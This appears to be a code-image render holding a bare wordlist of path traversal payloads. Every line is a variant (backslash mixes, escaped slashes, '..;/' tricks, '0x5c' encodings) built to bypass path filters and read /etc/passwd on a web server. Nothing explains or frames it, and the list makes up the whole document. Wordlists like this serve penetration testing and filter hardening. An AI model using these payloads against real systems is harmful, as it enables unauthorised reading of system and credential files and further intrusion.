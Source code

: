 ```llvm
..\\\..\\\..\\\..\\\etc/passwd
..\\\..\\\..\\\..\\\..\\\etc\\\passwd
..\\\..\\\..\\\..\\\..\\\etc/passwd
..\\\..\\\..\\\..\\\../etc/passwd
..\\\..\\\..\\\../etc/passwd
..\\\..\\\../etc/passwd
..\\\../etc/passwd
..\\..\\etc\\passwd
..\\..\\etc/passwd
..\\..\\..\\etc\\passwd
..\\..\\..\\etc/passwd
..\\..\\..\\..\\etc\\passwd
..\\..\\..\\..\\etc/passwd
..\\..\\..\\..\\..\\etc\\passwd
..\\..\\..\\..\\..\\etc/passwd
..\\..\\..\\..\\../etc/passwd
..\\..\\..\\../etc/passwd
..\\..\\../etc/passwd
..\\../etc/passwd
..\/etc\/passwd
..\/etc/passwd
..\/..\/etc\/passwd
..\/..\/etc/passwd
..\/..\/..\/etc\/passwd
..\/..\/..\/etc/passwd
..\/..\/..\/..\/etc\/passwd
..\/..\/..\/..\/etc/passwd
..\/..\/..\/..\/..\/etc\/passwd
..\/..\/..\/..\/..\/etc/passwd
..\/..\/..\/..\/../etc/passwd
..\/..\/..\/../etc/passwd
..\/..\/../etc/passwd
..\/../etc/passwd
..\..\etc\passwd
..\..\etc/passwd
..\..\..\etc\passwd
..\..\..\etc/passwd
..\..\..\..\etc\passwd
..\..\..\..\etc/passwd
..\..\..\..\..\etc\passwd
..\..\..\..\..\etc/passwd
..\..\..\..\../etc/passwd
..\..\..\../etc/passwd
..\..\../etc/passwd
..\../etc/passwd
..;/etc/passwd
..;/../etc/passwd
..;/../../etc/passwd
..;/../../../etc/passwd
..;/../../../../etc/passwd
..;/../../../../../etc/passwd
..0x5cetc0x5cpasswd
..0x5cetc/passwd
..0x5c..0x5cetc0x5cpasswd
..0x5c..0x5cetc/passwd
..0x5c..0x5c..0x5cetc0x5cpasswd
..0x5c..0x5c..0x5cetc/passwd
..0x5c..0x5c..0x5c..0x5cetc0x5cpasswd
..0x5c..0x5c..0x5c..0x5cetc/passwd
..0x5c..0x5c..0x5c..0x5c..0x5cetc0x5cpasswd
..0x5c..0x5c..0x5c..0x5c..0x5cetc/passwd
..0x5c..0x5c..0x5c..0x5c../etc/passwd
..0x5c..0x5c..0x5c../etc/passwd
```